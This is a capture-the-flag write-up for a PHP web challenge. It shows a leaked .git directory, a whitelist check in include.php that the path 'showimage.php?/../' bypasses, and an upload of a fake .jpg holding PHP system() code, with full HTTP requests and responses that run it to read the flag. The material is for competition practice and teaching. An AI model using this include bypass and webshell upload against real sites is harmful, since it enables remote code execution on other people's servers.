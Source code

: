 信息收集
----
信息收集很重要

Examination Site
----
* git
* PHP Include
* PHP Upload

Analysis
----
Use dirsearch.py to scan the website dir,and will found the .git
```bash
[09:12:56] 200 -  377B  - /.git/index
```
Then we will get 4 files:
* include.php
* upload.php
* showimage.php
* index.php

The essential code:

From *include.php*
```php
function check($file)
    {
        $whitelist = array('showimage.php');
        if (! isset($file) || !is_string($file)) {
            return false;
        }

        if (in_array($file, $whitelist)) {
            return true;
        }

        $file = mb_substr($file,0,mb_strpos($file . '?', '?'));
        if (in_array($file, $whitelist)) {
            return true;
        }

        $file = urldecode($file);
        $file = mb_substr($file,0, mb_strpos($file . '?', '?'));
        if (in_array($file, $whitelist)) {
            return true;
        }

        return false;
    }
```

From *upload.php*:
```php
if($file)
{
    $name = strtolower($file['name']);
    $ext = getImageExt($name);
    if(!in_array($ext,$whiteList))
    {
        exit('非法格式上传');
    }
    $randomString = getRandomString();
    $fileName =  $randomString.'.'.$ext;
    if(move_uploaded_file($file['tmp_name'],'ac78b24a/'.$fileName))
    {
        echo "<h2>文件上传成功!</h2>".'文件名:'.$fileName;
    }
    else
    {
        echo "<h2>文件上传失败!</h2>";
    }
}
```
Now we know that we need to upload a jpg with php code and then include it.
Howevers,we need to bypass the *$check()*.
The payloads is **showimage.php?/../../ac78b24a/[Your php code].jpg**

Exploit
----
The *upload.php* doesn't offer the upload interface so that we need to modify the http packages.
```http
POST /upload.php HTTP/1.1
Host: examination.cup.360.cn:9002
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: __huid=11fv2PitnuoaSLI4gxDUndFDIRvfP+nkDvFt7SmHgbm8s=; __guid=133126103.2566954415202299904.1571389874001.5566; Qs_lvt_317691=1571389874%2C1571390365; Qs_pv_317691=3339381377967604700%2C4248602918050323500%2C1090171495033724300%2C4183073154641787400; __DC_gid=59612149.737379581.1571389903664.1571389932667.3; __gid=176960547.101599076.1571463340619.1571463442726.4; bad_id73963b90-5cf1-11e9-9a78-b1dd2463a67d=4a565812-f232-11e9-8090-3fa0d6bf21d3; JSESSIONID=0BB281AAC5ABDCC251F305EACCF6DC37; PHPSESSID=cb2b3288fb797e27c3803dac23bcd663
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------9011289509495
boundary=---------------------------9011289509495
Content-Length: 245

-----------------------------9011289509495
Content-Disposition: form-data; name="face"; filename="1.php%.jpg"
Content-Type: application/octet-stream

<?php
system('cat 739d3f54_flag.php');
?>
-----------------------------9011289509495
```

And it works!
```http
HTTP/1.1 200 OK
Server: panyun/0.9.0
Date: Sat, 02 Nov 2019 05:10:04 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 74
Connection: close
X-Powered-By: PHP/7.1.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding

<h2>文件上传成功!</h2>文件名:625347d9f50a20093077ae6ee40de99a.jpg
```

And then we use *include.php* to include it.
```http
GET /include.php?file=showimage.php?/../ac78b24a/625347d9f50a20093077ae6ee40de99a.jpg HTTP/1.1
Host: examination.cup.360.cn:9002
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: __huid=11fv2PitnuoaSLI4gxDUndFDIRvfP+nkDvFt7SmHgbm8s=; __guid=133126103.2566954415202299904.1571389874001.5566; Qs_lvt_317691=1571389874%2C1571390365; Qs_pv_317691=3339381377967604700%2C4248602918050323500%2C1090171495033724300%2C4183073154641787400; __DC_gid=59612149.737379581.1571389903664.1571389932667.3; __gid=176960547.101599076.1571463340619.1571463442726.4; bad_id73963b90-5cf1-11e9-9a78-b1dd2463a67d=4a565812-f232-11e9-8090-3fa0d6bf21d3; JSESSIONID=0BB281AAC5ABDCC251F305EACCF6DC37; PHPSESSID=cb2b3288fb797e27c3803dac23bcd663
Upgrade-Insecure-Requests: 1


```

Get Flag.
```http
HTTP/1.1 200 OK
Server: panyun/0.9.0
Date: Sat, 02 Nov 2019 05:10:04 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 74
Connection: close
X-Powered-By: PHP/7.1.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding

<?php


//flag{4305506ff1c88b05c2c53df2df8bcdce}


?>
```